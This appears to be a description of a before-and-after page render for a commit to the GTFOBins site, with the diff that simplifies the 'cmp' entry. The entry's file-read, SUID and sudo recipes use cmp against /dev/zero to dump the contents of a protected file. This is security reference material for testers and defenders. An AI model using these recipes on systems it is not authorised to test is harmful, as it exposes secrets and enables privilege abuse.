

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/cmp.md, in a window 1280 px wide. Shown: the whole page at 96% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 978 px from its top, so only the background shows below that.

Commit message:
Simplify cmp

```diff
--- a/_gtfobins/cmp.md
+++ b/_gtfobins/cmp.md
@@ -1,21 +1,16 @@
 ---
+description: Dump the bytes of the input file that are different from the NUL byte in a tabular format, hence this may not be suitable to read arbitrary binary files.
 functions:
   file-read:
     - code: |
-        LFILE=file-to-read
-        TEMP=$(mktemp)
-        printf 'A%.0s' {1..999} > $TEMP
-        cmp $LFILE $TEMP -b -n 999 -l
+        LFILE=file_to_read
+        cmp $LFILE /dev/zero -b -l
   suid:
     - code: |
-        LFILE=file-to-read
-        TEMP=$(mktemp)
-        printf 'a%.0s' {1..999} > $TEMP
-        cmp $LFILE $TEMP -b -n 999 -l
+        LFILE=file_to_read
+        ./cmp $LFILE /dev/zero -b -l
   sudo:
     - code: |
-        LFILE=file-to-read
-        TEMP=$(mktemp)
-        printf 'a%.0s' {1..999} > $TEMP
-        sudo cmp $LFILE $TEMP -b -n 999 -l
+        LFILE=file_to_read
+        sudo cmp $LFILE /dev/zero -b -l
 ---
```
